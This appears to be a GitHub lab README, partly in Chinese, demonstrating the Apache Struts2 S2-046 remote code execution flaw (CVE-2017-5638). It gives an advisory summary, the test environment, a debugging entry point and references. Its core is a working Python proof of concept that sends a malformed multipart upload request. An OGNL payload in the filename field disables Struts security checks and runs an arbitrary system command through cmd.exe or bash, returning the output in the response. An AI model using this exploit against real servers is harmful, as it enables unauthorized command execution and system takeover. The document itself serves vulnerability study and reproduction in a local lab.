

# S2-046 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software       | Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10     |
| Reporter                | Chris Frohoff <cfrohoff at qualcomm dot com>, Nike Zheng <nike dot zheng at dbappsecurity dot com dot cn>, Alvaro Munoz <alvaro dot munoz at hpe dot com> |
| CVE Identifier          | CVE-2017-5638                                                |

## Problem

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Disposition的filename来触发该漏洞，进而执行系统命令。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC


Python exp（因为要发送畸形数据包，所以使用原生socket编写payload，见参考链接2）: 

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST /s2_046_war_exploded/Upload.action HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('localhost', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

## Debug

具体分析可参考：[【漏洞分析】Struts2 S2-046 漏洞原理分析）](https://www.anquanke.com/post/id/85776)。在这里只记录一下调试入口以及大致原理。

Content-Disposition中的Filename参数存在空字节，在检查时会抛出异常，会进入buildErrorMessage()方法。

在buildErrorMessage()方法处下断点，运行exp触发断点。

`s2-046/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/multipart/JakartaMultiPartRequest.class:91`



## Reference

- [S2-046](https://cwiki.apache.org/confluence/display/WW/S2-046)
- [S2-046 远程代码执行漏洞（CVE-2017-5638）](https://github.com/vulhub/vulhub/blob/master/struts2/s2-046/README.zh-cn.md)
- [【漏洞分析】Struts2 S2-046 漏洞原理分析）](https://www.anquanke.com/post/id/85776)

